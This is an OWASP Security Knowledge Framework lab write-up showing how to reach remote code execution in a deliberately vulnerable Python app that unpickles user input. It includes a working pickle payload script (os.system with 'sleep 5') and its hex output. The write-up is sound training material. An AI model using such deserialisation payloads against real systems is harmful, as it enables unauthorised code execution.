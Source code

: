 # Python - Deserialisation Pickle (DES-Pickle)

## Running the app

```
$ sudo docker pull blabla1337/owasp-skf-lab:des-pickle
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:des-pickle
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Running the app Python3

First, make sure python3 and pip are installed on your host machine. After installation, we go to the folder of the lab we want to practise "i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

![Docker image and write-up thanks to Contrahack.io !](<../../.gitbook/assets/ing\_primary\_logo (2).png>)

## Reconnaissance

Serialisation is used by application to easely store an object and transfer it across systems and networks. If an application needs to store an instance of a class, it can use serialisation to get a string representation of this object. When the application or an other application needs to use the instance again, it will unserialise the string to get back the object.

Obviously, an attacker can tamper with a string that will be deserialised and potentially trigger unexpected behaviour in the application. Depending on the language and library used, this unexpected behaviour can go from arbitrary object creation to remote code execution.

Some use cases for python pickle: 1) saving a program's state data to disk so that it can carry on where it left off when restarted (persistence) 2) sending python data over a TCP connection in a multi-core or distributed system (marshalling) 3) storing python objects in a database 4) converting an arbitrary python object to a string so that it can be used as a dictionary key (e.g. for caching & memorization).

Lets start the application and check how it works.

![](../../.gitbook/assets/DESPickle1\_1.png)

The user flow is very simple. The application is expecting a Pickle Serialized object for internal processing and, as expected, the deserialization is done in a unsafe way.

From wikipedia: The pickle module implements binary protocols for serializing and de-serializing a Python object structure. “Pickling” is the process whereby a Python object hierarchy is converted into a byte stream, and “unpickling” is the inverse operation, whereby a byte stream (from a binary file or bytes-like object) is converted back into an object hierarchy

The goal is to achieve Remote Code Execution through this weakness.

## Exploitation

### Step 1

Press F12 on the browser, to open the Developer Toolbar.Click on the Network tab.

![](../../.gitbook/assets/DESPickle1\_2.png)

### Step 2

Open the challenge folder, _DES-Pickle_, and open the _exploit.py_ file in a text editor.

```python
import pickle
import os
import base64
import binascii


"""
Pickle is a python package used to 'serialize' an object to string format and store them to or load from a file.
Pickle is a simple stack language, which means pickle has a variable stack.
Every time it finished 'deserializing' an object it stores it on the stack.
Every time it reaches a '.' while 'deserializing', it pop a variable from the stack.
Besides, pickle has a temperary memo, like a clipboard.
'p0', 'p1' means put the top obj on the stack to memo and refer it as '0' or '1'
'g0', 'g1' act as get obj '0' or '1'
"""

class RunBinSh(object):
  def __reduce__(self):
    return (os.system,('sleep 5',))

print(binascii.hexlify(pickle.dumps(RunBinSh())))
```

This code creates a Pickle serialized object of _os.system_ call passing _sleep 5_ as argument. The unserialization of this class should lead the system to sleep for 5 seconds.

Let's run the exploit and see the output:

```bash
python3 exploit.py

b'80049522000000000000008c05706f736978948c0673797374656d9493948c07736c656570203594859452942e'
```

_Note: Running the exploit script on Windows 10 might generate a invalid results. The one generated above can be used._

### Step 3

Copy the output of previous step, paste it on the text field and click on _Submit Button_.

![](../../.gitbook/assets/DESPickle1\_3.png)

Check the Network tab and note the _sync_ request takes approximately 5 seconds to respond. It proves that the _sleep 5_ command was executed successfully and the Remote Code Execution was achieved.

![](../../.gitbook/assets/DESPickle1\_4.png)

## Additional sources

{% embed url="https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html" %}
